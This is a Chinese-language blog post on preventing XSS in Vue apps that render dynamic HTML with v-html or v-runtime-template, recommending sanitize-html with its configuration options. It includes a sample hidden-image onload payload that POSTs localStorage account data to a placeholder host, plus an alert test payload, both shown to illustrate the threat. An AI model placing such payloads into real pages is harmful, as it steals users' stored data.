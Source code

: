 ```yaml
---
title: Vue Dynamic HTML Prevent XSS
date: 2022-06-26 23:39:36
tags:
  - Vue
  - v-html
  - v-sanitize
  - v-runtime-template
---
```


在開發系統中 有可能會需要使用到 CMS 系統或是動態抓取 CDN 的頁面 取得

使用者動態設定的樣板或是 Banner 這裡一般人可能不會特別想到就是 XSS Attack

我曾經遇過公司 有駭客入侵將靜態的 html 檔案裏面故意塞惡意程式碼，導致使用者看到錯誤畫面的狀況(被導走到其他頁面)

(ex: 這些 html 可能被駭客塞一些 js or redirect 導到錯誤網站 讓使用者看到一些錯誤資訊)

可以參考這篇
[Vue XSS Attack Guide](https://www.stackhawk.com/blog/vue-xss-guide-examples-and-prevention/#injecting-the-malicious-script)

舉例來說我們可以透過隱藏的圖片發送 request 給 駭客的 Server 並且偷取到對應的 Cookie or Session ....

```html
<img
  src="xxxx"
  style="display:none"
  onload="fetch('https://test.api/', {method: 'POST', body: localStorage.getItem('account')})"
/>
```

回到主題來說
這裡列出兩種 vue 的 componet 可以動態 compile html ，這裡列出來用途以及差異
| Plugnin | Support | different | |
|--------------------|--------|--- --------|---|
| v-html | 只支援純粹 HTML 無法支援 vue custom component | 無法防止 XSS attack |
| v-runtime-template | 支援 vue custom component & variabe (需事先定義好) | 無法防止 XSS attack |

我們可以看到我們在圖片 loading 的過程中插入 alert 如果沒有做任何阻擋 兩種方法都會跳 Alert

[DEMO](https://codesandbox.io/s/dynamic-template-yvfx0n)

{% asset_img 01.png "Sample" %}

```html
<img
  src="https://jnx.me/img/profile.jpg"
  style="display:none"
  onload="alert('xss');"
/>
```

接下來我們介紹今天的主角 Sanitize html

[sanitize html](https://github.com/apostrophecms/sanitize-html)
在 Vue 3 裡面可以用[vue-3-sanitize](https://github.com/vannsl/vue-3-sanitize)

套件

我們這裡可以透過此套件做比較主要的三件事情

1. 限制動態 HTML 的 TAG

Default options

```javascript
allowedTags: [
  "address", "article", "aside", "footer", "header", "h1", "h2", "h3", "h4",
  "h5", "h6", "hgroup", "main", "nav", "section", "blockquote", "dd", "div",
  "dl", "dt", "figcaption", "figure", "hr", "li", "main", "ol", "p", "pre",
  "ul", "a", "abbr", "b", "bdi", "bdo", "br", "cite", "code", "data", "dfn",
  "em", "i", "kbd", "mark", "q", "rb", "rp", "rt", "rtc", "ruby", "s", "samp",
  "small", "span", "strong", "sub", "sup", "time", "u", "var", "wbr", "caption",
  "col", "colgroup", "table", "tbody", "td", "tfoot", "th", "thead", "tr"
],
disallowedTagsMode: 'discard',
allowedAttributes: {
  a: [ 'href', 'name', 'target' ],
  // We don't currently allow img itself by default, but
  // these attributes would make sense if we did.
  img: [ 'src', 'srcset', 'alt', 'title', 'width', 'height', 'loading' ]
},
// Lots of these won't come up by default because we don't allow them
selfClosing: [ 'img', 'br', 'hr', 'area', 'base', 'basefont', 'input', 'link', 'meta' ],
// URL schemes we permit
allowedSchemes: [ 'http', 'https', 'ftp', 'mailto', 'tel' ],
allowedSchemesByTag: {},
allowedSchemesAppliedToAttributes: [ 'href', 'src', 'cite' ],
allowProtocolRelative: true,
enforceHtmlBoundary: false
```

2. 限制 CSS & Script & iframe 語法

```javascript
const clean = sanitizeHtml(
  '<script src="https://www.safe.authorized.com/lib.js"></script>',
  {
    allowedTags: ['script'],
    allowedAttributes: {
      script: ['src'],
    },
    allowedScriptDomains: ['authorized.com'],
  }
);
```

```css
onst clean = sanitizeHtml(dirty, {
        allowedTags: ['p'],
        allowedAttributes: {
          'p': ["style"],
        },
        allowedStyles: {
          '*': {
            // Match HEX and RGB
            'color': [/^#(0x)?[0-9a-f]+$/i, /^rgb\(\s*(\d{1,3})\s*,\s*(\d{1,3})\s*,\s*(\d{1,3})\s*\)$/],
            'text-align': [/^left$/, /^right$/, /^center$/],
            // Match any number with px, em, or %
            'font-size': [/^\d+(?:px|em|%)$/]
          },
          'p': {
            'font-size': [/^\d+rem$/]
          }
        }
      });
```

根據上面的設定後

可以對照[DEMO](https://codesandbox.io/s/dynamic-template-yvfx0n)
透過 sanitize 過濾掉有問題的語法 避免 XSS 攻擊

```javascript
this.$sanitize(this.message);
```

因為靜態檔案最容易被人動手腳 尤其是系統一大 檔案一多不會有人時時刻刻去檢查....

# Reference

[XSS(Cross site scripting) 簡單範例](https://ithelp.ithome.com.tw/articles/10238479)
[XSS Sample](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)
[Vue 3 Sanitize](https://github.com/vannsl/vue-3-sanitize)
